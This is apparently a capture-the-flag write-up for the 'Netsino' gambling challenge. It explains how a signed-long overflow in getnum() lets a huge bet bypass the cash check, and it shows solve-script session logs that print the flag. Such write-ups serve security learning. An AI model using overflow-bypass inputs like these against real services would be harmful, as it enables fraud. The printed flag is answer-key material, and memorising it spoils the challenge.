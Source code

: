 # Netsino
[netsino.c](netsino.c) 在讀數字用的`getnum()`
 * `num`型別是`uint64_t`，可回傳的卻是`long`
  * `long`: 在不同機器上，有可能只介於+-(2^31-1)之間，實際測試確實是`[-2^31+1, 2^31-1]`
  * `LONG_MAX` >= `2^31-1`，實際測試後，發現`LONG_MAX = 2^32-1`
   * `bet = (1 << 32)`，時，顯示會得到的金額皆為0，因為剛好overflow了！
```
$ python solve.py
Arr, git ye into me casio, the hottest gamblin' sensation on the net!
Here, take twenty, and let's gamble!
You've got $20. How much you wanna bet on this next toss?
> 4294967296
4294967296
1: EVEN. Win your bet back plus an additional $0 if the dice sum even.
2: ODDS. Win your bet back plus an additional $0 if both dice roll odd.
3: HIGH. Win your bet back plus an additional $0 if the dice sum to 10 or more.
4: FOUR. Win your bet back plus an additional $0 if the dice sum to four.
5: EYES. Win your bet back plus an additional $0 on snake eyes.
```
 * `getbet()`：只要overflow變成<=0，就可以跳過對玩家現金的檢查
 * 在overflow的情況下，如果賭輸了 => **boss會扣錢，而玩家現金會增加**
 * 所以，只要overflow成夠大的負數，就能夠快速取得flag！

## Solve
我使用[pexpect](https://pexpect.readthedocs.org)，自動和server 互動
 * 詳見 [solve.py](solve.py)
```
$ python solve.py
Arr, git ye into me casio, the hottest gamblin' sensation on the net!
Fifty bucks says you'll lose it back to me!
You've got $50. How much you wanna bet on this next toss?
> 2147483648
2147483648
1: EVEN. Win your bet back plus an additional $2147483648 if the dice sum even.
2: ODDS. Win your bet back plus an additional $2147483648 if both dice roll odd.
3: HIGH. Win your bet back plus an additional $2147483648 if the dice sum to 10 or more.
4: FOUR. Win your bet back plus an additional $0 if the dice sum to four.
5: EYES. Win your bet back plus an additional $2147483648 on snake eyes.
What'll it be?
> 5
5
Lets rock 'n' roll!
5 3
Snake eyes! ...not.
Great, I'm fresh outta cash. Take this flag instead.
i_wish_real_casinos_had_this_bug
Git outta here.
flag = ['i_wish_real_casinos_had_this_bug']
```

